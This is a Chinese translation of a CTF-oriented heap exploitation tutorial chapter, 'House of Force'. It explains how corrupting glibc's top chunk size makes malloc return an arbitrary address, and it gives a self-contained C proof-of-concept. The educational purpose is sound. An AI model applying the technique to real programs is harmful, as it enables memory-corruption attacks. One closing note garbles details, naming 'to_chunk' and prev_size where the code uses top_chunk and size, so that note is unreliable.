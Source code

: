 ```yaml
---
title: Heap Exploitation系列翻译-15 House of Force
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```



> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

与'House of Lore'类似, 这项攻击重点在于从'malloc'返回一个任意的指针. 伪造堆块攻击讨论的是fastbins的情况而'House of Lore'讨论的则是small bin的情况. 在这里'House of Force'则是利用了'top chunk'. topmost chunk 也被称作 'wilderness', 它以堆的末尾作为边界(比如, 它是堆的最大地址)并且不会出现在任何bin链中. 它符合相同的堆块结构格式.

这项攻击技术假定在top chunk的首部存在溢出. 它的`size`可以被修改为一个非常大的值(在本例中是`-1`), 这能够确保所有初始申请将会使用top chunk来满足要求, 而非依赖于`mmap`. 在64位系统, `-1`即是`0xFFFFFFFFFFFFFFFF`, 一个这样大小的堆块可以覆盖程序的整个内存空间. 让我们假定一下, 攻击者希望'malloc'返回地址'P'. 现在, 任何大小为`&top_chunk` - `P`的malloc调用都会使用top chunk来满足. 要注意, `P`可以在`top_chunk`之前或之后. 如果是在前面, 结果就得是一个很大的整数(因为size是无符号的). 但它仍旧是小于`-1`的. 在发生完整数溢出并且malloc使用top chunk很好的满足申请需求后, 此刻, top chunk就会指向`P`并且之后的任何申请都会直接返回`P`!

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_force.c)):

```c
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

'malloc' 返回一个指向`victim`的地址

以下几样需要我们注意:

1. 当计算`to_chunk`的准确指针时, 要将prev_size的三个最低位清零, 以获得准确的大小.
2. 当计算requestSize, 需要算进一个额外的缓冲区, 这只是用于抵消分配堆块时进行的四舍五入. 顺便一提, 在这种情况下, malloc 会返回一个比申请大小多8字节的堆块. 要注意, 这是与机器相关的.
3. `victim`可以是任意地址(堆,栈,bss段等地址)
